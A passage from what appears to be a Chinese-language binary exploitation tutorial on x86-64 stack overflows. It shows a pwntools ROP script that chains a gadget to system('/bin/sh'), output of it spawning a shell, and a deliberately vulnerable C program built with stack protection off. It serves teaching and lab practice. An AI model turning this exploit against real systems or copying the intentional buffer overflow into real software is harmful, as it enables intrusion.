 ```
# systema\_addr    高

# version2
pop\_pop\_call\_static = 0x0000000000107419 #  pop rax ; pop rdi ; call rax
pop\_pop\_call\_offset = pop\_pop\_call\_static - libc.symbols\["system"\]
print("pop\_pop\_call\_offset = 0x%x" % pop\_pop\_call\_offset)

pop\_pop\_call\_addr = pop\_pop\_call\_offset + systema\_addr
print("pop\_pop\_call\_addr    = 0x%x" % pop\_pop\_call\_addr)

payload="A"\*136 +pwn.p64(pop\_pop\_call\_addr)+pwn.p64(systema\_addr)+pwn.p64(binsh\_addr)
# systema\_addr      低   pop rax
# binsh\_addr        高   pop rdi

print("\\n##########sending payload##########\\n")
p.send(payload)
p.interactive()
```

### 实践 3 栈溢出去掉辅助函数

```
panda@ubuntu:~/Desktop/test$ python test2.py 
\[\*\] '/lib/x86\_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
\[+\] Starting local process './linux\_x64\_test2': pid 118889
binsh\_static   = 0x18cd57
binsh2\_static  = 0x18cd57
binsh\_offset   = 0x1479c7
binsh\_addr     = 0x7fc3018ffd57
pop\_ret\_offset = 0x-2428e
pop\_ret\_addr   = 0x7fc301794102

##########sending payload##########
\[\*\] Switching to interactive mode
Hello, World
$ whoami
panda
```

检查防护

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable\_function() {
    char buf\[128\];
    read(STDIN\_FILENO, buf, 512);
}
int main(int argc, char\*\* argv) {
    write(STDOUT\_FILENO, "Hello, World\\n", 13);
    vulnerable\_function();
}
编译方法：gcc -fno-stack-protector linux\_x64\_test3.c -o linux\_x64\_test3 -ldl //禁用栈保护
```
